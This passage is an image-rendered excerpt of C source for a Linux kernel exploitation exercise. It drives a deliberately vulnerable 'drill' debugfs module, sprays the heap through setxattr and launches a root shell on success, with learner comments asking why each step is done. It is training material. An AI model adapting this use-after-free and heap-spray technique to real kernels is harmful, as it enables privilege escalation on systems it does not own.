 ```c
        printf("\tstart at %p\n", p);
        printf("\tcallback %lx\n", item->callback);
}

int act(int fd, char code)
{
        ssize_t bytes = 0;

        bytes = write(fd, &code, 1);
        if (bytes <= 0) {
                perror("[-] write");
                return EXIT_FAILURE;
        }

        return EXIT_SUCCESS;
}

int main(void)
{
        unsigned char *spray_data = NULL;
        int ret = EXIT_FAILURE;
        int fd = -1;

        printf("begin as: uid=%d, euid=%d\n", getuid(), geteuid());

        spray_data = mmap(NULL, MMAP_SZ, PROT_READ | PROT_WRITE,
                                        MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        if (spray_data == MAP_FAILED) {
                perror("[-] mmap failed");
                goto end;
        }

        init_payload(spray_data, MMAP_SZ);
        fd = open("/sys/kernel/debug/drill/drill_act",O_WRONLY);
        act(fd,'1');
        act(fd,'2');
        act(fd,'3');
        // MDL: echo '1' > /sys/kernel/debug/drill/drill_act
        // MDL: echo '2' > /sys/kernel/debug/drill/drill_act
        // MDL: echo '3' > /sys/kernel/debug/drill/drill_act

        // MDL: why do we call setxattr with such spray_data and PAYLOAD_SZ?
        ret = setxattr("./", "foobar", spray_data, PAYLOAD_SZ, 0);
        printf("setxattr returned %d\n", ret);

        act(fd,'2');
        // MDL: echo '2' > /sys/kernel/debug/drill/drill_act

        if (getuid() == 0 && geteuid() == 0) {
                printf("[+] finish as: uid=0, euid=0, start sh...\n");
                run_sh();
                ret = EXIT_SUCCESS;
        } else {
                printf("[-] need heap spraying\n");
        }

        printf("[+] The End\n");

end:
        if (fd >= 0) {
                ret = close(fd);
                if (ret != 0)
                        perror("[-] close fd");
```